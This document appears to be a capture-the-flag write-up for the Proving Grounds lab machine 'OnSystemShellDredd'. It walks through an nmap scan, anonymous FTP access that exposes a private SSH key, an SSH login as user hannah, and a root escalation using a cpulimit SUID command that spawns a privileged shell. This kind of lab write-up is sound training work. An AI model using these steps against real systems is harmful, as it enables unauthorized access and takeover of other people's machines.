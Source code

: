 ```yaml
---
layout: default
title: OnSystemShellDredd
parent: Proving Grounds - Linux
nav_order: 4
---
```


This is Katana - pineapple

# OnSystemShellDredd

---

## Discovered Ports for Enumeration

- _21_ - FTP
- _61000_ - SSH

## Users and Credentials

- _Users_: hannah
- _Credentials_:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.199.130
```

# Enumeration

---

## 21 - FTP

Anonymous login allowed.

Discovered hidden directory named _.hannah_

Discovered private RSA key.

![rsa_key](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/rsa_key.png)

Download the private key and save locally to _id_rsa_ file.

# Exploitation

---

Use the downloaded RSA private key to authenticate to port 61000 SSH as user _hannah_

![ssh](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/ssh.png)

# Post-Exploitation

---

## Check SUID/GUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
